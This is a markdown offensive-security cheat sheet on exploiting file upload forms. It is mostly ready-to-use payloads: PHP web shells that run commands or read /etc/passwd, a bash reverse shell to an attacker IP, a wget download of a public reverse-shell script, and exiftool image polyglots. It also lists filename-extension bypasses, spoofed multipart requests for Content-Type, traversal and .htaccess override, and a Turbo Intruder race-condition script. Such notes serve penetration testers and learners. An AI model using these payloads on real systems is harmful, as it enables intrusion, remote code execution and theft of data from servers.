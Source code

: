```yaml
---
title: File Upload Attack
desc: 
tags: [Burp Suite, Exiftool, File, Netcat, Reverse, Shell, Upload, Web]
alts: [OS-Command-Injection, Reverse-Shell]
render_with_liquid: false
---
```


## 1. Prepare a Payload

1. **Create a Web Shell**

    For example, the file name is "exploit.php".

    Simply showing the result of 'whoami'.

    ```php
    <?php echo system('whoami'); ?>
    ```

    This shows the content of "/etc/passwd".

    ```php
    <?php echo file_get_contents('/etc/passwd');  ?>
    ```

    Or you can use more useful payload with query parameter e.g. "/exploit.php?cmd=whoami"

    ```php
    <?php echo system($_GET['cmd']); ?>
    ```

2. **Create a Reverse Shell**

    ```php
    <?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'"); ?>
    ```

    Or download the payload from GitHub.

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit some variables in the payload
    $ip = '<attacker-ip>'
    $port = 4444
    ```

    You need to open listener for getting a shell.

    ```sh
    nc -lvnp 4444
    ```

    After uploading it, reload the page in which the payload uploaded e.g. "/upload/shell.php".

3. **Create a Polyglot using Exiftool**

    It's assumed that you have an arbitrary image file.

    ```sh
    exiftool -Comment="<?php system('ls'); ?>" example.png
    exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.png
    exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
    ```

<br />

## 2. Bypass the File Validation Techniques when Uploading the Payload

Upload the payload in somewhere e.g. the profile picture's upload form.  
In most cases, you need to bypass the file validation.

1. **Bypass the File Extension Validation**

    If you cannot upload the payload with ".php", modify the extension.

    ```
    exploit.php
    exploit.php3
    exploit.php4
    exploit.php5
    exploit.phtml
    exploit.php.
    exploit.php.jpg
    exploit.php.png
    exploit%2Ephp
    exploit.p.phphp
    exploit.php%00.jpg
    exploit.php%0d%0a.jpg
    exploit.pHp
    exploit.gif.pHp
    exploit.jpg.php
    exploit.png.php
    ```

2. **Bypass Content-Type Validation**

    If you cannot upload with "Content-Type: application/x-php", try changing it to **"Content-Type: image/jpeg"**.

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename="exploit.php"
    Content-Type: image/jpeg

    <?php echo system($_GET['cmd']); ?>

    ------abcdefghijk
    ```

3. **Change the File Name to Directory Traversal**

    You may be able to edit the upload location by changing the **"filename"**.

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
    Content-Type: application/x-php

    <?php echo system($_GET['cmd']); ?>

    ------abcdefghijk
    ```

4. **Override the Server Configuration**

    You may be able to override the ".htaccess".

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename=".htaccess"
    Content-Type: text/plain

    AddType application/x-httpd-php .abc

    ------abcdefghijk
    ```

5. **Camouflage the Exploit as Image File**

    You may be able to bypass exif_imagetype() of PHP by editing the contents in the payload as image file.

    ```php
    // exploit.php

    GIF32a
    <?php echo system($_GET['cmd']); ?>
    ```

6. **Bypass the Filter (Client-Side & Server-Side)**

    If the target website uses filter JavaScript around file uploading, you may be able to bypass it by using Burp Suite.

    ```sh
    On Burp Suite, click "Proxy" tab and "Options".

    # Client-Side
    1. Navigate to "Intercept Client Requests" section, click on the top line ("File extension"...) then click "Edit".
    2. The popup will open.
    3. On the popup, find and remove the "|^js$" in the "Match condition", then save the filter.

    # Server-Side
    1. Navigate to "Intercept Server Requests" section and check "Intercept responses based on...".

    # ----------------------------------------------

    1. Turn the intercept on.
    2. On browser, press Ctrl+F5 (hard refresh) to reload the page.
    3. If you found the filtering file (.js), drop it.
    ```

7. **Race Conditions using Turbo Intruder**

    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=10,)

        request_post = '''POST /avatar/upload HTTP/1.1
    Host: vulnerable.com
    ...
    ...
    Connection: close

    ------abcdefghi
    Content-Disposition: form-data; name="avatar"; filename="exploit.php"
    Content-Type: application/x-php

    <?php echo file_get_contents('/etc/passwd');  ?>

    ------abcdefghijk--

    '''

        request_get = '''GET /files/avatars/exploit.php HTTP/1.1
    Host: vulnerable.com
    ...
    ...
    Connection: close


    '''

        engine.queue(request_post, gate='race1')
        for i in range(5):
            engine.queue(request_get, gate='race1')


        engine.openGate('race1')
        engine.complete(timeout=60)
        


    def handleResponse(req, interesting):
        table.add(req)
    ```

<br />

## 3. Other Tips

1. **Magic Numbers**

    ```sh
    # PNG
    89 50 4E 47 ...

    # JPEG
    FF D8 DD E0 ...

    # JPG
    FF D8 FF EE ...
    ```
